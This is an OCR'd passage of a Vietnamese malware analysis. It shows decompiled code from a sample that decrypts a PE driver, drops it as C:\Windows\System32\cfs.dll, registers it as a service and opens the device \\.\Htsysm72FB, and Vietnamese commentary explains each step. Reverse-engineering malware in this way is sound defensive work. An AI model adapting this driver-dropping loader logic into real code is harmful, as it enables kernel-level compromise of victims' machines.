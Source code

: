 ```cpp
        v4 = dec_unicode_string((__int64)&unk_140019988, 0x1Cu, 0);// C:\Windows\System32\cfs.dll
        v1 = writeFileByMapping_140002ED8(v4, (__int64)pedata1);// cfs.dll
        if ( v1 )
        {
          pCfsString = *(_QWORD *)dec_unicode_string((__int64)&unk_140019900, 4u, 0);// cfs
          v5 = dec_unicode_string((__int64)&unk_140019988, 0x1Cu, 0);// C:\Windows\System32\cfs.dll
          *(_OWORD *)pFileName = *(_OWORD *)v5;
          *(_OWORD *)&pFileName[8] = *((_OWORD *)v5 + 1);
          *(_OWORD *)&pFileName[16] = *((_OWORD *)v5 + 2);
          *(_QWORD *)&pFileName[24] = *((_QWORD *)v5 + 6);
          v6 = dec_unicode_string((__int64)&unk_1400199C0, 0xFu, 0);// \\.\Htsysm72FB
          *(_OWORD *)pPathSmth = *(_OWORD *)v6;
          *(_QWORD *)&pPathSmth[8] = *((_QWORD *)v6 + 2);
          *(_DWORD *)&pPathSmth[12] = *((_DWORD *)v6 + 6);
          v14 = v6[14];
          v7 = service_140001FB4((__int64)&pCfsString, (__int64)pFileName, (__int64)pPathSmth, (__int64 *)&hObjectRecv);// setup service
          v0 = (__int64)hObjectRecv;
          v1 = v7;
          if ( v7 )
          {
            LODWORD(pCfsString) = 0;
            *(_QWORD *)&pFileName[8] = 0i64;
            *(_OWORD *)pFileName = 0i64;
            *(_DWORD *)&pFileName[12] = 0;
            *(_QWORD *)pPathSmth = 0i64;
            *(_DWORD *)&pPathSmth[4] = 0;
            pPathSmth[6] = 0;
            LOBYTE(pPathSmth[7]) = 0;
            v1 = sendDeviceIO_140002C44(hObjectRecv, pedata2);
            if ( v1 )
            {
              v8 = dec_unicode_string((__int64)&unk_140019900, 4u, 0);// cfs
              v1 = (unsigned __int64)sub_140001EB4((__int64)v8) != 0;
            }
          }
        }
      }
    }
  }
	// ... truncated
}
```

Hàm này đầu tiên sẽ lấy địa chỉ các hàm windows API bằng `LoadLibrary, GetProcAddress`.

Tiếp theo, nó decrypt 1 file PE, rồi drop ra đường dẫn "C:\Windows\System32\cfs.dll" (file này thật ra là file driver).

Sau đó, nó load driver mới drop ra trong hàm ở 0x140001FB4, đồng thời gọi `CreateFile` để tạo 1 device object.
